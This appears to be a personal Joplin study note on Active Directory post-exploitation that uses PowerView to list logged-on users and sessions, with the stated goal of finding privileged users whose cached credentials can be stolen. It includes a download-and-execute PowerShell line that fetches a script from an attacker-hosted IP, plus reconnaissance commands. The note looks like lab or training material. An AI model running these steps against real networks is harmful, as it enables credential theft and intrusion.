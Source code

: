 PowerView (AD Post Exploit)

# Currently Logged In Users

<ins>Objective:</ins> Find active members who have high privileges since their privileges will be cached in memory and we can steal and auth with them

![ffe19110147790c01baac9f6d95ce0e1.png](:/0aa973ff22ed44e3b34500e3442393ed)

If powershell directly, \[Apparently it doesn't work\]

> NetWkstaUserEnum  # lists information about all users currently logged on to the workstation.
> 
> NetSessionEnum(&"servername", &"workstationname", &"username", 502)  # https://docs.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum

**May have errors. Instead, use PowerView to save time (inside /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 or ~/ADlibs)**

- Either DownloadFile or DownloadString(No need import)

> Import-Module .\\PowerView.ps1
> 
> IEX(New-Object System.Net.WebClient).downloadString('http://192.168.119.168:5001/PowerView.ps1')
> 
> Get-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list

![fad1c8ed8c2fc50014659ecb25fc6637.png](:/78133b2a55b44b30be84cf56164042c2)

> Get-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions

![2d91a92b1743c78b260b0ec7ffb8cc18.png](:/c8dfaf8ca3b54b248630872404920194)

id: 7ae7e944304240578b19ddef6d1ed8c5
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-01-30T14:08:52.272Z
updated_time: 2022-04-22T05:46:46.077Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-30T14:08:52.272Z
user_updated_time: 2022-04-22T05:46:46.077Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1